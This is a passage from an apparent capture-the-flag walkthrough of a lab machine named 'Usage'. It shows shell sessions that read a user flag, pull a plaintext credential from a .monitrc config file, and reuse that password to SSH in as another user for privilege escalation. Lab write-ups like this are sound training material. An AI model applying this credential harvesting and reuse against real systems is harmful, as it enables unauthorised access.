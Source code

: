 ```bash
dash@usage:/home# ls
dash
xander

dash@usage:/home/dash# ls
snap
user.txt

dash@usage:/home/dash# cat user.txt
0d2201459.....
```

`.monitrc` - contain the credential `admin:3nc0d3d_pa$$w0rd`

```bash
dash@usage:/home/dash# cat .monitrc
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```

## Privilege Escalation

I have used the credential `xander:3nc0d3d_pa$$w0rd` to ssh as xander

```bash
xander@usage:~$ whoami
xander
xander@usage:~$ id
uid=1001(xander) gid=1001(xander) groups=1001(xander)
xander@usage:~$ 
```
